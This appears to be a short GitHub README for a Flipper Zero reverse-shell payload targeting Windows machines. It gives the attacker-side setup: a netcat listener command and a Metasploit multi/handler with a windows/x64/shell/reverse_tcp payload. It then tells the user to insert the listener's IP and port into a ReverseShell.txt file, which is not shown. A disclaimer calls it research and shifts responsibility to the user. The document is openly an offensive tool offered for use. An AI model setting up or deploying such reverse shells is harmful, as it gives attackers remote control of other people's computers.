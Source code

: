 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
